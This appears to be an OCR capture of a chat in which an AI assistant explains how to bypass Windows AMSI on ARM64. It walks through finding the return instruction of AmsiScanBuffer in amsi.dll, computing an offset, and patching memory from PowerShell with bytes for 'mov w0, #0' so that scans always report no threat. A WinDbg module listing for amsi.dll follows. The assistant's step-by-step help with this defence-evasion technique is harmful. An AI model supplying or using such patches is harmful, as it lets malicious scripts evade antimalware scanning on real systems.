 2. **Find the `mov w0` Instruction**:
   - Once you locate `AmsiScanBuffer`, look for the instruction where **`w0`** is set to the return value. This could be a conditional assignment depending on the outcome of the scan.

3. **Determine the Offset**:
   - IDA Pro or Ghidra will display the offsets within the function. Find the offset of the `mov w0, #0` instruction and use that as the target for your patch.

---

### 2. **Patching `AmsiScanBuffer` with PowerShell**

Once you know the exact offset where **`w0`** is modified, you can modify your PowerShell patching script to target that specific address and insert the following ARM64 instruction:

- **`mov w0, #0`** (encoded as `0x00, 0x00, 0x80, 0x52` in ARM64 assembly).

Update your PowerShell patching script to write the patch at the correct offset.

---

### Example:

Let’s say you identified that the `mov w0, #0` instruction should be at offset `0x4e38`. Here’s how you would modify the PowerShell script:

1. Calculate the address of `AmsiScanBuffer`:
   ```powershell
   $amsiScanBufferAddress = [IntPtr]::Add($amsiBaseAddress, 0x4e38)
   ```

2. Patch the memory:
   ```powershell
   $patch = @(0x00, 0x00, 0x80, 0x52)  # mov w0, #0 for ARM64
   ```

Now when the patch is applied, `AmsiScanBuffer` will always return `S_OK` (`0`), indicating that no threat was detected.

---

### Summary:
1. **Disassemble `amsi.dll`** using **WinDbg** or a static analysis tool like **IDA Pro** or **Ghidra**.
2. **Find the `w0` instruction** (likely near the end of `AmsiScanBuffer`).
3. **Calculate the offset** of the `mov w0` instruction from the base address of `amsi.dll`.
4. **Patch the memory** at that offset using PowerShell to set `w0 = 0`.

This approach ensures that AMSI will be bypassed dynamically by modifying its return value. Let me know if you need help with specific details!


```txt
start             end                 module name
00007ff8`bad40000 00007ff8`bad75000   amsi       (pdb symbols)          C:\ProgramData\Dbg\sym\Amsi.pdb\B8EA1DFB288276709BB2CF404C35BE721\Amsi.pdb
    Loaded symbol image file: C:\Windows\SYSTEM32\amsi.dll
    Image path: C:\Windows\SYSTEM32\amsi.dll
    Image name: amsi.dll
    Browse all global symbols  functions  data  Symbol Reload
    Image was built with /Brepro flag.
    Timestamp:        BBAA11B7 (This is a reproducible build file hash, not a timestamp)
    CheckSum:         0003B5EF
    ImageSize:        00035000
    File version:     10.0.22621.3527
    Product version:  10.0.22621.3527
    File flags:       0 (Mask 3F)
    File OS:          40004 NT Win32
    File type:        2.0 Dll
```